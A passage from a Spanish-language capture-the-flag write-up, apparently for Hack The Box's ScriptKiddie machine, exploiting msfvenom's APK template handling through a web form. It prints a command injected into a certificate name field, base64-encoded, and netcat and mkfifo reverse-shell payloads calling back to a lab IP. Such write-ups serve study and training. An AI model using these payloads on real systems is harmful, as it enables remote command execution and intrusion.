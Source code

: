 ```bash
❭ python3 msfvenom_APK.py 
[+] Manufacturing evil apkfile
Payload: nc 10.10.14.47 4433 -e /bin/bash
-dname: CN='|echo bmMgMTAuMTAuMTQuNDcgNDQzMyAtZSAvYmluL2Jhc2g= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.

[+] Done! apkfile is at /tmp/tmp6ns2_i9t/evil.apk
Do: msfvenom -x /tmp/tmp6ns2_i9t/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Perfecto, ahora (como dice al final) plasmemos la ejecución pero en la web:

![314page5000_msfVrun](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000_msfVrun.png)

Entonces si lo comparamos con la ejecución por Shell, cada campo equivale a:

* **-x**: El archivo `APK` malicioso (donde podemos subir el template).
* **LHOST**: Debe ser `localhost`, ya que queremos ejecutar los comandos en la máquina para que desde ahí nos genere la Reverse Shell.

Damos en `generate`:

Pero en la web obtenemos `Something went wrong`. Así que probablemente sea que estamos con el binario `nc` que no soporta el argumento `-e`, intentémoslo con ese binario:

* [Reverse Shell Cheat Sheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).

```py
...
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.47 4433 >/tmp/f'
...
```
